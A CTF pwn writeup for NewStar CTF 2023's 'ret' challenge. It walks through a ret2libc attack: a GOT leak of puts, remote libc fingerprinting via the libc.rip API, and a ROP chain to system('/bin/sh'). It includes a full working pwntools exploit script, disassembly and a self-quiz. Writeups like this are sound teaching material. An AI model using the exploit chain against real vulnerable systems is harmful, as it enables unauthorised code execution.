








<div align="center">

# 🔗 ret (ret2libc)

### Pwn Writeup · NewStar CTF 2023 Public Track · Dynamic libc Resolution, No libc Provided


*No libc.so.6 in the challenge files. No system() in the binary. Just a GOT leak, a public API, and the low 12 bits of an address that ASLR can't touch.*

</div>

---

## 📌 TL;DR

A 64-bit, No-PIE, no-canary binary with NX enabled and **no libc provided alongside the challenge files**. `main()` overflows a 32-byte stack buffer via an unbounded `read()`. There is no `system()` call and no planted win function anywhere in the binary — `nm`/`objdump` confirm it. The exploit is a two-stage `ret2libc`: leak `puts`'s real address through the binary's own `puts@plt`, fingerprint the exact remote libc build from that leak's low 12 bits via the public `libc.rip` API, download the matching `.so`, compute `system()` and `"/bin/sh"`'s real addresses, then overflow a second time to spawn a shell — with a one-gadget stack-alignment fix along the way.

```python
# Stage 1: puts(puts@got) -> leak -> identify libc via libc.rip -> compute system()/"/bin/sh"
# Stage 2: pop rdi ; ret -> "/bin/sh" -> ret (alignment) -> system
```

| | |
|---|---|
| **Binary** | `ret` — ELF 64-bit, dynamically linked, No PIE, not stripped |
| **Bug** | `read(0, buf, 0x100)` into a 32-byte stack buffer |
| **Protections** | Canary **off** · NX **on** · PIE **off** · Partial RELRO |
| **Missing ingredient** | No `system`, no win function, **and no libc file provided** |
| **Primitive** | GOT leak → remote libc fingerprinting via `libc.rip` → `ret2libc` |
| **Padding** | 40 bytes to the saved return address |
| **Result** | Shell, confirmed stable against the remote instance |

---

## 🗺️ Table of Contents

1. [Binary Overview](#1--binary-overview)
2. [Disassembly of `main`](#2--disassembly-of-main)
3. [Exploitation Strategy](#3--exploitation-strategy)
4. [ROP Gadget Discovery](#4--rop-gadget-discovery)
5. [Remote libc Identification](#5--remote-libc-identification-no-libc-provided)
6. [Full Exploit](#6--full-exploit)
7. [Reconstructed Source](#7--reconstructed-source-ret2libcc)
8. [Self-Quiz](#8--self-quiz)
9. [Note on the libc Resolution Step](#9--note-on-the-libc-resolution-step)
10. [Flag](#10--flag)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 📋 Binary Overview

```
$ file ret
ret: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, not stripped

$ checksec --file=ret
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Key takeaways from `checksec`:

| Protection | Status | Impact |
|---|---|---|
| Canary | Off | Stack smashing needs no leak to bypass |
| NX | On | Stack is not executable → shellcode injection is out; must reuse existing code (ROP) |
| PIE | Off | The binary's own code/data addresses are fixed at `0x400xxx` / `0x600xxx`, no leak needed for binary gadgets |
| RELRO | Partial | GOT is writable, but more importantly for us: **readable and leakable** via the still-intact PLT stubs |

No `libc.so.6` was provided alongside the binary — the libc version has to be fingerprinted remotely. `nm -C ./ret | grep -w "T system"` and `objdump -d ./ret | grep -A5 "win\|shell\|flag\|system"` both return nothing: there is no `system()` call and no `win()` function statically present. Available PLT-linked functions are limited to `puts`, `read`, and `setvbuf`. This rules out a direct `ret2win` or `ret2system` and forces a `ret2libc` approach.

---

## 2. 🧩 Disassembly of `main`

```asm
0000000000400698 <main>:
  400698: push   rbp
  400699: mov    rbp,rsp
  40069c: sub    rsp,0x30
  4006a0: mov    DWORD PTR [rbp-0x24],edi
  4006a3: mov    QWORD PTR [rbp-0x30],rsi
  4006a7: mov    eax,0x0
  4006ac: call   400637 <init>
  4006b1: lea    rdi,[rip+0xcc]        # "Welcome to NewStar CTF!!"
  4006b8: call   400520 <puts@plt>
  4006bd: lea    rdi,[rip+0xd9]        # "Show me your magic again"
  4006c4: call   400520 <puts@plt>
  4006c9: lea    rax,[rbp-0x20]
  4006cd: mov    edx,0x100
  4006d2: mov    rsi,rax
  4006d5: mov    edi,0x0
  4006da: call   400530 <read@plt>
  4006df: lea    rdi,[rip+0xd0]        # "See you next time"
  4006e6: call   400520 <puts@plt>
  4006eb: mov    eax,0x0
  4006f0: leave
  4006f1: ret
```

### Vulnerability

`read(0, buf, 0x100)` reads **256 bytes** into a buffer that `lea rax,[rbp-0x20]` places only **32 bytes** below `rbp`. There is no bounds check — classic stack buffer overflow, large enough to overwrite the saved `rbp`, the return address, and build an arbitrary ROP chain well beyond it.

### Padding calculation



```
buffer address : rbp - 0x20   (32 bytes before rbp)
saved rbp       : 8 bytes     (because `push rbp` was used — frame pointer present)
-----------------------------------------
padding to return address = 0x20 + 8 = 40 bytes
```

`sub rsp,0x30` is a red herring here — it reserves the *entire* local stack frame, but it is **not** the offset we need. The only distance that matters is buffer-to-`rbp` (from the `lea` instruction), not buffer-to-`rsp`.

---

## 3. 🎯 Exploitation Strategy

Since:
- there's no `system()` in the binary,
- NX prevents stack shellcode,
- PIE is off (binary addresses are static),
- but libc's own base address **is** randomized by ASLR,

the plan is a classic two-stage `ret2libc`:

**Stage 1 — Leak:** Force the binary to call `puts(puts@got)`. This prints the *real, currently-loaded* address of `puts` in libc. Since this address is inside the ASLR-randomized libc mapping, leaking it tells us exactly where libc was loaded this run.

**Stage 2 — Pivot back:** Instead of letting the program exit, return execution to `main()` again, giving us a second overflow opportunity.

**Stage 3 — Win:** Using the leaked `puts` address, compute `system()`'s address and the address of the string `"/bin/sh"` inside the same libc, then overflow again to call `system("/bin/sh")`.



### Why GOT leak works despite Partial RELRO

Partial RELRO only prevents the *dynamic linker*-managed GOT entries from being write-protected after full relazyfication; it does **not** stop us from *reading* the GOT. The GOT entry for `puts` holds its real runtime address the moment it's first resolved (or immediately, since this binary is small enough that lazy binding isn't an obstacle for a function already called once in `main`). Calling `puts(addr_of_puts_got_entry)` just makes the program print 8 bytes of raw memory — which happen to be libc's `puts` address.

---

## 4. 🔧 ROP Gadget Discovery

### 4.1 `pop rdi ; ret`

x86-64 System V calling convention passes the first integer/pointer argument in `rdi`. To call `puts(x)` or `system(x)` via ROP, we need a gadget that pops a stack value into `rdi` and then returns control to the next entry in our chain.

```
$ ROPgadget --binary ret | grep rdi
0x0000000000400763 : pop rdi ; ret
```

Why this works: when control is transferred here via a `ret`, `pop rdi` consumes the next 8 bytes on the stack into `rdi`, then the trailing `ret` consumes the *following* 8 bytes as the next address to jump to — exactly the chaining mechanism ROP relies on.

### 4.2 Lone `ret` (stack alignment gadget)



```
0x400763: pop rdi ; ret     (5F C3)
0x400764:           ret     (C3)   <-- one byte into the same gadget
```

`0x400764` is simply the address of the trailing `C3` byte alone — jumping directly there skips `pop rdi` and executes only `ret`.

**Why it's needed:** the System V ABI requires `rsp % 16 == 0` at the point of a `call` instruction (so that `movaps`/SSE instructions deeper in libc functions, which require 16-byte-aligned operands, don't fault). A normal `call` naturally sets this up. But a ROP chain reaches each gadget via `ret`, not `call`, so every `ret` shifts `rsp` by 8 bytes instead of maintaining the alignment a real `call` would. By the time we reach `system`, `rsp` is misaligned by one `ret`-hop (odd multiple of 8), and `system`'s internal use of SSE instructions segfaults. Inserting one extra lone-`ret` gadget absorbs exactly 8 bytes, restoring 16-byte alignment before the jump into `system`.



Confirmed empirically: first exploit attempt without this gadget got a shell (`id` executed) but then crashed with `SIGSEGV`; adding the gadget produced a stable shell.

---

## 5. 🔬 Remote libc Identification (No libc Provided)

Since the local test environment's libc (used via pwntools' `io.libc` convenience when spawning the binary with `process()`) is **not guaranteed to match the remote server's libc**, we can't just hardcode offsets. Two complementary resolution strategies were used:

### 5.1 `LibcSearcher` (offline, local database)

```python
from LibcSearcher import LibcSearcher
obj = LibcSearcher('puts', leaked_puts)
```

It failed here (`No matched libc`) — its bundled dataset is static and doesn't cover every Ubuntu point-release.

### 5.2 `libc.rip` API fingerprinting (the technique actually used)

**Core idea:** ASLR only randomizes the *base* address of libc's mapping (which is always page-aligned, i.e. a multiple of `0x1000`). The *offset* of any given symbol within libc is fixed per build. Therefore, **the low 12 bits of a leaked libc address are ASLR-independent** and act as a fingerprint for that symbol's in-file offset, for *that specific libc build*.



Practically, the last 3 hex digits of the leaked address are usually sufficient as a search key (occasionally more precision, i.e. more nibbles, is required if multiple builds collide):

```python
offset_tail = hex(leaked_puts)[-3:]   # e.g. "970"

resp = requests.post(
    'https://libc.rip/api/find',
    json={'symbols': {'puts': offset_tail}}
)
candidates = resp.json()
```

The API returns every known libc build whose `puts` symbol ends in that offset, each with a `download_url` to the exact `.so` file:

```python
libc_bytes = requests.get(chosen['download_url']).content
open('./libc_remote.so.6', 'wb').write(libc_bytes)
libc = ELF('./libc_remote.so.6', checksec=False)
```

**Disambiguation:** a single symbol's offset tail is often shared by multiple builds (observed here: 10 candidates, mixing i686 and amd64, multiple distros/versions). Since the target binary is confirmed 64-bit (`file` output: `x86-64`), all 32-bit (`i386`/`i686`) candidates are immediately discardable:

```python
candidates_64 = [c for c in candidates if 'amd64' in c['id'] or 'x86_64' in c['id']]
```

This left two near-identical Ubuntu 18.04 point releases: `libc6_2.27-3ubuntu1.5_amd64` and `...1.6_amd64`. Both were plausible given the binary's embedded compiler string (`GCC (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0`, i.e. built on/for Ubuntu 18.04, whose default glibc is 2.27). The first candidate's offsets for `puts`, `system`, and `"/bin/sh"` were tried and worked — minor point-releases like `.5`→`.6` are typically security backports that don't relocate already-exported symbols, so either would likely have produced identical offsets for our three target symbols.

**Offline equivalent:** the same technique without network dependency is [`libc-database`](https://github.com/niklasb/libc-database) (the project `libc.rip` itself is built on) — clone it, run `./get <distro-version>` once to populate a local symbol index, then query with `./find puts 970` entirely offline.

### 5.3 Base and target address computation

```python
libc.address = leaked_puts - libc.symbols['puts']   # recovers libc's real load base
system_addr  = libc.symbols['system']                 # pwntools applies .address automatically
binsh_addr   = next(libc.search(b'/bin/sh\x00'))
```

---

## 6. 🚀 Full Exploit

### Stage 1 payload (leak)



```
[40 bytes padding]
pop_rdi_ret (0x400763)
puts_got    (0x601018)
puts_plt    (0x400520)
main_addr   (0x400698)     # return to main for a second overflow
```

### Stage 2 payload (win)



```
[40 bytes padding]
pop_rdi_ret (0x400763)
binsh_addr
ret_gadget  (0x400764)     # stack alignment fix
system_addr
```

### Complete annotated script

```python
from pwn import *
import requests

context.binary = elf = ELF('./ret')
context.log_level = 'info'

HOST = '320851ca6bbfc38dce37e7b6.tcp-ctf2.dasctf.com'
PORT = 9999

# Remote endpoint speaks TLS (confirmed by `ncat --ssl`), so pwntools needs ssl=True
# or the handshake never completes and all I/O times out / garbles.
io = remote(HOST, PORT, ssl=True)

pop_rdi_ret = 0x400763       # pop rdi ; ret
ret_gadget  = 0x400764        # lone ret, for 16-byte stack alignment before `call`-sensitive libc code
puts_plt    = elf.plt['puts']
puts_got    = elf.got['puts']
main_addr   = elf.symbols['main']

padding = b'A' * 40           # 0x20 (buffer-to-rbp) + 8 (saved rbp)

# ---------- Stage 1: leak real puts() address ----------
payload1  = padding
payload1 += p64(pop_rdi_ret)
payload1 += p64(puts_got)     # rdi = &puts@got
payload1 += p64(puts_plt)     # puts(rdi) -> leaks puts' real runtime address
payload1 += p64(main_addr)    # return to main() for a second overflow window

io.recvuntil(b'Show me your magic again\n')
io.send(payload1)

io.recvuntil(b'See you next time\n')
leaked_puts = u64(io.recv(6).ljust(8, b'\x00'))
log.success(f'Leaked puts address: {hex(leaked_puts)}')

# ---------- libc fingerprinting via libc.rip ----------
offset_tail = hex(leaked_puts)[-3:]
resp = requests.post('https://libc.rip/api/find', json={'symbols': {'puts': offset_tail}})
candidates = resp.json()

candidates_64 = [c for c in candidates if 'amd64' in c['id'] or 'x86_64' in c['id']]
chosen = candidates_64[0]
log.success(f"Chosen libc: {chosen['id']}")

libc_bytes = requests.get(chosen['download_url']).content
with open('./libc_remote.so.6', 'wb') as f:
    f.write(libc_bytes)

libc = ELF('./libc_remote.so.6', checksec=False)
libc.address = leaked_puts - libc.symbols['puts']
system_addr  = libc.symbols['system']
binsh_addr   = next(libc.search(b'/bin/sh\x00'))

log.success(f'libc base: {hex(libc.address)}')
log.success(f'system addr: {hex(system_addr)}')
log.success(f'/bin/sh addr: {hex(binsh_addr)}')

# ---------- Stage 2: system("/bin/sh") ----------
payload2  = padding
payload2 += p64(pop_rdi_ret)
payload2 += p64(binsh_addr)
payload2 += p64(ret_gadget)   # alignment fix — omitting this caused SIGSEGV inside system()
payload2 += p64(system_addr)

io.recvuntil(b'Show me your magic again\n')
io.send(payload2)

io.interactive()
```

---

## 7. 🧱 Reconstructed Source (`ret2libc.c`)

Based on the disassembly of `main`/`init` and the `.rodata` strings table:

```c
#include <stdio.h>
#include <unistd.h>

int main(int argc, char **argv) {
    char buf[32];   // at rbp-0x20; frame reserves 0x30 total, rest is padding/alignment

    setvbuf(stdout, 0, _IONBF, 2);
    setvbuf(stdin,  0, _IONBF, 2);
    setvbuf(stderr, 0, _IONBF, 2);

    puts("Welcome to NewStar CTF!!");
    puts("Show me your magic again");

    read(0, buf, 0x100);   // vulnerable: 256-byte read into a 32-byte buffer

    puts("See you next time");
    return 0;
}
```

(`init()` in the disassembly corresponds to the three `setvbuf` calls; `__libc_start_main` wires them in before `main` proper is entered, but the `init` symbol inlined here makes that explicit and testable at the source level.)

---

## 8. 🧩 Self-Quiz

**Q1. Why does `sub rsp,0x30` not factor into the padding formula at all?**
<details><summary>Answer</summary>
Padding is defined as "distance from the buffer to the saved <code>rbp</code>", not "distance from the buffer to <code>rsp</code>". <code>sub rsp,0x30</code> just reserves the full local-variable region; the buffer's actual position within that region is given separately by the <code>lea rax,[rbp-0x20]</code> instruction. Using <code>0x30</code> instead of <code>0x20</code> would overwrite 16 bytes too early, corrupting data before the saved <code>rbp</code>/return address rather than hitting them precisely.
</details>

**Q2. What if this binary had been compiled without a frame pointer (`-fomit-frame-pointer`, no `push rbp`)?**
<details><summary>Answer</summary>
Per the project's established rule: padding would be computed directly from <code>sub esp,N</code> and the buffer's position relative to <code>esp</code> at the time of the vulnerable call, with <strong>no</strong> "+8 for saved rbp" term, since there'd be no saved <code>rbp</code> on the stack to skip over. The return address would sit immediately after the buffer's reserved space.
</details>

**Q3. Why leak `puts` specifically, and not e.g. `read` or `setvbuf`?**
<details><summary>Answer</summary>
Any PLT-resolved libc function's GOT entry would technically work as a leak target — the choice of <code>puts</code> here is really about having a convenient <em>leaking</em> function, not about which GOT entry is read. <code>puts@plt</code> conveniently both reads an arbitrary memory address <em>and</em> prints it as a side effect when called with that address as its argument. <code>read</code>/<code>setvbuf</code> could serve as the GOT entry being leaked, but <code>puts</code> is the one actually invoked to perform the leak because it's the simplest "take an address, print what's there" primitive available.
</details>

**Q4. What would happen if, in Stage 1, we returned to `_start` instead of `main`?**
<details><summary>Answer</summary>
It would still work functionally (execution would eventually reach <code>main</code> again via <code>__libc_start_main</code>), but it's unnecessarily wasteful: <code>_start</code> re-runs <code>__libc_start_main</code>'s full setup (argc/argv/envp marshalling, <code>init_array</code> processing) before even reaching <code>main</code>. Returning directly to <code>main</code> skips this and is the simpler, more direct choice for re-triggering the vulnerable <code>read</code>.
</details>

**Q5. Suppose Full RELRO had been enabled instead of Partial. Would the GOT-leak technique still work?**
<details><summary>Answer</summary>
Yes — Full RELRO only makes the GOT <strong>read-only</strong> after relocation (preventing GOT <em>overwrite</em> attacks), it does not hide or remove the GOT's contents. Reading <code>puts@got</code> via <code>puts(puts@got)</code> is unaffected either way; Full RELRO would only matter if the exploit plan involved <em>writing</em> to the GOT (e.g., a GOT-overwrite redirect), which this exploit never attempts.
</details>

**Q6. Why was the lone-`ret` alignment gadget placed *before* `system_addr` in Stage 2's chain, rather than before `binsh_addr`?**
<details><summary>Answer</summary>
Alignment must be correct <strong>at the moment <code>system</code> itself is entered via <code>ret</code></strong>, since that's where its internal SSE instructions execute. <code>pop rdi</code> consumes a stack slot (shifting <code>rsp</code> by 8) regardless of where it sits in the chain, so what matters is the parity of <code>rsp</code> <em>immediately before jumping into <code>system_addr</code></em> — which is why the alignment gadget must be the entry directly preceding <code>system_addr</code>, not earlier in the chain.
</details>

**Q7. If `libc.rip`'s offset-tail search had returned zero candidates, what would the next debugging step be?**
<details><summary>Answer</summary>
Widen the search by using more hex digits from the leaked address (e.g., last 4 or 5 nibbles) rather than just 3, since a 3-nibble tail only guarantees uniqueness within a 4KB page and can occasionally be too coarse or (rarely) simply unlisted in <code>libc.rip</code>'s dataset. Failing that, fall back to a self-hosted <code>libc-database</code> clone, or triangulate using a second leaked symbol (e.g. <code>read</code>'s GOT entry) to cross-reference candidate lists and narrow down the exact build.
</details>

---

## 9. 🛠️ Note on the libc Resolution Step

The remote-libc-fingerprinting logic described in Section 5 (query `libc.rip` by leaked-symbol offset tail, filter by architecture, download the matching `.so`) was factored out into a small reusable helper rather than being re-copied into every future `ret2libc` exploit. It's maintained as a standalone tool: **[libc-identify](https://github.com/Gantosay/Pwn-Tools-Custom/tree/main/libc-identify)**.

In an exploit script it's used as:

```python
from libc_identify import find_and_download_libc

libc = find_and_download_libc('puts', leaked_puts, arch='amd64', pick_index=0)
libc.address = leaked_puts - libc.symbols['puts']
```

---

## 10. 🏁 Flag

Not included — this is a dynamic/remote-instanced challenge (`dasctf.com`), and the flag is unique per connection/container instance. The technique above is fully reproducible against any live instance of this binary.

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
